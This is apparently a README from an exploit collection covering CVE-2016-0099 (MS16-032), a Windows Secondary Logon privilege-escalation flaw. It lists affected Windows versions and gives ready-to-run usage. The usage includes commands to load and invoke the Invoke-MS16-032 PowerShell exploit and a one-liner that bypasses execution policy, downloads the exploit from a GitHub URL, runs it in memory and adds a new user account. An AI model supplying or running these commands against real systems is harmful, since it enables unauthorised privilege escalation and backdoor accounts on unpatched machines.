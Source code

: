 ### CVE-2016-0099

#### Describe

The Secondary Logon Service in Microsoft Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, and Windows 10 Gold and 1511 does not properly process request handles, which allows local users to gain privileges via a crafted application, aka "Secondary Logon Elevation of Privilege Vulnerability."

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          |                  |         |        |                    |
| Windows 10          |                  | 1511    |        |                    |
| Windows 7           |                  |         | SP1    | &#10004; |
| Windows 8.1         |                  |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### Utilization

> Target system requires more than 2 CPU cores

PS script test, perform the following command in Windows Server 2008 R2 SP1 X64

```
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

Can also add an account remotely

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user ascotbe test6666 /add'"
```

GIF map is as follows

![6](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-0099_win2008_x64_ps.gif)

Test all the versions of X64 and X86 using the EXE file, which only records Windows 7 SP1 X64 version

![7](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-0099_win7_x64.gif)

